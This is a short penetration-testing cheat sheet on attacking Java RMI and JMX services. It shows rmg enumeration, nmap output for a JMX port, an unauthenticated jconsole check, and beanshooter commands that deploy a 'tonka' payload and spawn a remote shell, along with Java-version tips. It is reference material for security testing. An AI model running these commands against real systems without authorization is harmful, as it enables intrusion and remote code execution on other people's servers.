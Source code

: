 * Brute force login

## <mark style="color:yellow;">Java RMI</mark>

```sh
# Tool: https://github.com/qtc-de/remote-method-guesser

rmg enum <ip> <port>

# Note: there are many other things and techniques you can use with rmg. Refer to the documentation
```

## <mark style="color:yellow;">JMXRMI</mark>

```sh
# Find JMX port 
nmap -sC -sV -p 45000 <ip>   
[...]

PORT      STATE SERVICE  VERSION
45000/tcp open  java-rmi Java RMI
| rmi-dumpregistry: 
|   jmxrmi
[...]
```

**TESTING**

```sh
# Tool: https://github.com/qtc-de/beanshooter
# jconsole (/usr/lib/jvm/java-xxxxxx-openjdk-amd64/bin/jconsole)
# (Some jdk doesn't include jconsole)

# Check credentials
jconsole # connect <hostname>:<port>. [without credentials]

# Enumerate configuration
beanshooter enum <ip> <jmx_port>
# The best way to get a shell is with tonka 
# Creating a TemplateImpl payload object to abuse StandardMBean
beanshooter standard <ip> <jmx_port> tonka
# Spawns a shell. NOTE: this works even if the target host doesn't reach you
beanshooter tonka shell <ip> <jmx_port>

# Note: there are many other things and techniques you can use with beanshooter. Refer to the documentation
```

**Beanshooter Tips**

* If your local Java version is higher than the Java version of the application server, the server cannot load the bytecode and throws an exception.
* How to know what java version the server is running? Connect with jconsole, then go to "VM Summary", find "VM Arguments" and search "Boot class path".
* Install with maven
